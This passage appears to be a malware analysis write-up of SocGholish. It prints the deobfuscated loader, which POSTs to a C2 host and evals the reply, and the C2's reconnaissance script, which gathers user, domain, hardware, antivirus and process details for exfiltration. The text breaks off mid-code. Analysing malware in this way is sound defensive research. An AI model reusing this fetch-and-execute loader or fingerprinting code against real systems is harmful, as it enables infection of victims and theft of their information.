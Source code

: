 After removing the obfuscation and performing logical function and variable renaming, I am left with:
```JS
var activeXObject = new this['ActiveXObject']('MSXML2.XMLHTTP');
activeXObject['open']('POST', 'https://ianxu.nodes.gammalambdalambda[.]org/gotoCheckout'), ![]),
activeXObject['setRequestHeader']('Upgrade-Insecure-Requests', '1'), 
activeXObject['send']('9Wc+14W1/MmSf3OfPfWgAhWibAiEEJslsZ8BcxSL3w=='), 
this['eval'](get_resp_text(activeXObject))
```

The payload POSTs a hardcoded string to a C2 server, and executes the response, whatever it may be.
### SocGholish C2 Server: First Response
Having configured tools to monitor the requests and responses to the C2 server, I executed the JS script as a normal user would, by double clicking it in the Downloads folder. 

Immediately, the C2 responded with a short snippet of JavaScript, which is subsequently executed.

The cleaned response is below:
```JS
var sz='';
var activex_obj=new ActiveXObject('WScript.Shell');
var wscript_network_obj=new ActiveXObject('WScript.Network');
var array=[];
array.push('b');
array.push('501');
array.push(WScript['ScriptFullName']);
array.push(wscript_network_obj['ComputerName']);
array.push(wscript_network_obj['UserName']);
array.push(wscript_network_obj['UserDomain']);
array.push(activex_obj['ExpandEnvironmentStrings']('%userdnsdomain%'));
array.push(wmi_query('CIMV2','Win32_ComputerSystem','Manufacturer'));
array.push(wmi_query('CIMV2','Win32_ComputerSystem','Model'));
array.push(wmi_query('CIMV2','Win32_BIOS','Version') + wmi_query('CIMV2','Win32_BIOS','SerialNumber'));
array.push(wmi_query('SecurityCenter2','AntiSpywareProduct','displayName'));
array.push(wmi_query('SecurityCenter2','AntiVirusProduct','displayName'));
array.push(wmi_query('CIMV2','CIM_NetworkAdapter','MACAddress'));
array.push(wmi_query('CIMV2','Win32_Process','Name'));
array.push(wmi_query('CIMV2','Win32_OperatingSystem','BuildNumber'));

function wmi_query(arg1,arg2,arg3){
	var ret_str='';
	try{
		var winmgmt_obj=GetObject("winmgmts:\\\\.\\root\\"+arg1);
		var results=winmgmt_obj['ExecQuery']('SELECT * FROM ' + arg2,'WQL');
		var enumerator=new Enumerator(results);
		for(; !enumerator['atEnd'](); enumerator['moveNext']()){
			var item=enumerator['item']();
			if(item[arg3]){
				ret_str += item[arg3] + '|';
			}
		}
	}
	catch(e){
		ret_str='-1';
	}
	return ret_str;
}

try{
	var c2_string='';
	for(var i=0; i<array.length; i++){
		c2_string += i + '=' + encodeURIComponent(array[i]) + '&';
	}
	var resp_text='';
```